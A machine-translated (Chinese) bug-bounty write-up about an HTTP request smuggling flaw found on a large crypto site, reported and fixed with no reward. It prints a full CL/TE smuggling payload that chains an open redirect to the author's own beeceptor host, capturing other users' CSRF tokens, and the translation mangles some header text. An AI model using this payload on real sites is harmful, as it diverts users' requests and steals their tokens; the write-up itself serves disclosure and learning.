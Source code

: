 # 请求在主要秘密地点走私——失望之路

> 原文：<https://infosecwriteups.com/request-smuggling-in-major-crypto-site-road-to-disappointment-a71a461f3b1f?source=collection_archive---------1----------------------->

让我自我介绍一下，因为这是我第一次写作。首先，如果我在写作中犯了错误，我很抱歉，因为英语不是我的母语。我来自一个小国，自 1998 年以来一直在那里工作，并从那时起“监测”安全局势。我从来没有勇气宣称自己是安全专家，因为编码是我不好的一面(我认为整天坐在椅子上键入代码很无聊)，但我当时受到一些团队和专家(fluffy bunny、team teso、一些 IRC 频道等)的钦佩。我利用的第一个 bug 是我认为是 windows 服务器中的 Unicode bug，雅虎和谷歌网站上有很多 XSS，我甚至在我的学习路径中为 Winamp 编写了缓冲区溢出漏洞利用。那时候和现在大不一样。我的道路让我暂时远离了安全领域，但我从未停止。

回到现实前一阵子 a 加入了 Hackerone 平台只是为了练技术。发现一些 XXE，XSS，开放重定向，CRLF，甚至在 Twitter 网站上嵌入令牌，这给了我一个不错的赏金(谢谢 Twitter)。因为对我来说这不是一个大的挑战，所以我想尝试一些别的东西。

然后是 James Kettle (albinowax)关于 HTTP 请求走私的精彩演示。我开始阅读关于 desync 攻击的文章([https://ports wigger . net/research/http-desync-attacks-request-smighting-reborn](https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn))，看了一些视频，在 portswigger academy 做了一些练习测试，觉得已经准备好和我的下一个主机碰碰运气了:)

与此同时，我收到了这个主要加密网站的邀请，并开始枚举子域，找到了一些开放的重定向和用户枚举，但所有这些都超出了范围。我决定试试 https://github.com/defparam/smuggler[埃文·库斯托迪奥](https://medium.com/u/444ff95c7157?source=post_page-----a71a461f3b1f--------------------------------) [的测试脚本，在很短的时间内，我得到了一些易受攻击的主机。](https://github.com/defparam/smuggler)

很好，但是现在是制作有效载荷的最困难的部分。许多不眠之夜尝试一切都没有成功。很多时候，我忘记取消选中更新打嗝时的内容长度或将十进制转换为十六进制，作为走私请求或结束请求的长度，如 0\r\n\r\n

最后，我在我的 beeceptor 端点被击中，我不能相信我的眼睛，代币开始下雨。有效载荷如下:

> **POST /？CB = 7309697047596003 HTTP/1.1
> Transfer-Encoding:chunked
> 主机:XXXXXX
> 用户代理:Mozilla/5.0(Windows NT 10.0；Win64x64) AppleWebKit/537.36 (KHTML，像壁虎一样)Chrome/78 . 0 . 3904 . 87 Safari/537.36
> 内容-类型:application/x-www-form-urlencoded；charset = UTF-8
> Content-Length:4
> Cookie:5d 2 af 5477d 02 a 9 df 5 f 62511 ceebb 7972d 3 BAE 8d 63 fc 14 BC 2223 e 14 bfffba 0d 4 f 7 c 96 c 6 cf 46 C3 de 33 b 3；**
> 
> **F4 \ r \ n**(→计算以下请求的字符数并将其转换为十六进制)
> **GET /xxxx？a = 2&targeturl =//oxygene . free . be ceptor . com HTTP/1.1
> Host:XXXXXX
> Connection:close
> Content-Length:50
> account Type:Real
> Authorization:Hidden
> Content-Type:application/JSON；charset=UTF-8
> 接受:application/json，text/plain，/**
> 
> **x=1
> 0\r\n\r\n**

在这个请求中，前端接受“Transfer-Encoding: chunked”并将处理第一个块 F4 或十进制 244。对于 0\r\n\r\n 它将请求转发到仅接受内容长度的后端。后端只看到 4 的请求体(Content-Length: 4，其中 **F4\r\n = 4** )并处理它，附加它的其余部分或 **GET /xxxx？a = 2&targeturl =//oxygene . free . be ceptor . com HTTP/1.1
Host:XXXXXX**(这是我之前找到的一个实际打开的重定向 url，不在范围内)到下一个请求也就是随机用户一个。用户被重定向到嵌入了 x-csrf 令牌的端点。

![](img/c06e4384bee1bdcbe6949f6b9683eaa1.png)

我立即向项目负责人报告，在做了大量解释后，问题得到了解决。不幸的是，我得到了零奖金，因为你需要提交至少一个 P1 才能进入他们的奖金水平。失望是巨大的，但正如我之前写的，我没有就此止步。